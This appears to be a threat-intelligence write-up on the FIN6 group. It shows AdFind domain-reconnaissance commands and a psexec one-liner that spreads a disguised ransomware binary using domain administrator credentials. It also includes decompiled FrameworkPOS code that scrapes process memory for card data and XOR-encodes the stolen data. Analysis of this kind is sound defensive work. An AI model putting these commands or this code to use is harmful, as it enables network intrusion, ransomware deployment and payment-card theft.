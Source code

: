 # FIN6

## Features

1. In intranet penetration, use Adfind to query domain controllers, and then use 7-Zip to compress the results for penetration.

```bash
adfind.exe -f (objectcategory=person) >  ad_users.txt
//Find all people objects in the domain
adfind.exe -f (objectcategory=computer) > ad_computers.txt
//Find all computers in the domain
adfind.exe -f (objectcategory=organizationalUnit) > ad_ous.txt
//Find all group objects in the domain
adfind.exe -subnets -f (objectCategory=subnet) > ad_subnets.txt
//Find all subnets in the domain
adfind.exe -f "(objectcategory=group)" > ad_group.txt
//Find all groups in the domain
adfind.exe -gcb -sc trustdmp >  ad_trustdmp.txt
//Find trusted objects in the domain
7.exe a -mx3 ad.7z ad_*
```

2. When moving horizontally, the existing domain administrator credentials will be used to distribute the blackmail virus.

```bash
start copy svchost.exe \\10.1.1.1\c$\windows\temp\start psexec.exe \\10.1.1.1 -u [Domain\Domain Administrator] -p "password" -d -h -r mstdc -s -accepteula -nobanner c:\windows\temp\svchost.exe
```

3. FrameworkPOS malware creates threads to build communication protocols and retrieve host information during execution.

```C
CreateThread(0, 0, (LPTHREAD_START_ROUTINE)caller, 0, 0, 0);
//Create thread
while ( 1 )
{
  time(&v11);
  hSnapshot = CreateToolhelp32Snapshot(2u, 0);
  //Create a snapshot for the specified process, heap, module and thread by obtaining the information of the specified process
  if ( hSnapshot == (HANDLE)-1 )
    return 0;
  pe.dwSize = 296;

  if ( !Process32First(hSnapshot, &pe) )
    break;
  do
  {
    v8 = 0;
    for ( j = 0; j < 0x14; ++j )
    {
      if ( !strcmp(pe.szExeFile, &aWininit_exe[24 * j]) || strstr(byte_592010, pe.szExeFile) )
      //Blacklist Wininit.exe to speed up memory scanning
      {
        v8 = 1;
        break;
      }
    }
    if ( !v8 )
    {
      if ( pe.th32ProcessID )
      {
        dwProcessId = pe.th32ProcessID;
        v14 = 1;
        dword_592514 = 0;
        byte_59136B = 0;
        v89 = check_virtualQuery_ex(pe.th32ProcessID, 1);
        if ( v89 )
        {
          scan_memoryfor_card((int)v89);  //Scan memory
          free((int)v89);
          _sleep(200u);
        }
      }
    }
  }
  while ( Process32Next(hSnapshot, &pe) );
  if ( dword_592410 > 0 )
    _sleep(10000u s);
  CloseHandle(hSnapshot);
  time(&v15);
  v15 -= v11;
  localtime(&v15);
}
```

4. The stolen data will be confused by hard coding technology. First, the XOR of "AA" will be converted to the following string, and then it will be converted to hexadecimal and added to the API call of snprintf.

```C
size_t __cdecl enc_func(char *a1, int a2)
{
  size_t result;
  unsigned int i;
  for ( len_enc = 0; ; ++len_enc )
  {
    result = strlen(a1);
    if ( len_enc >= result )
      break;
    for ( i = 0; i < 69; ++i )
    {
      if ( (unsigned __int8)a1[len_enc] == byte_42E000[i] )
      {
        a1[len_enc] = byte_42E048[i];
        break;
      }
    }
    a1[len_enc] ^= AA_key;
_snprintf((char *)(a2 + 2 * len_enc), 2u, "%.2x", (unsigned __int8)a1[len_enc]);
//Format (unsigned __int8)a1[len_enc] as a string in the format of "%. 2x" and copy it to str
  }
  return result;
}
```
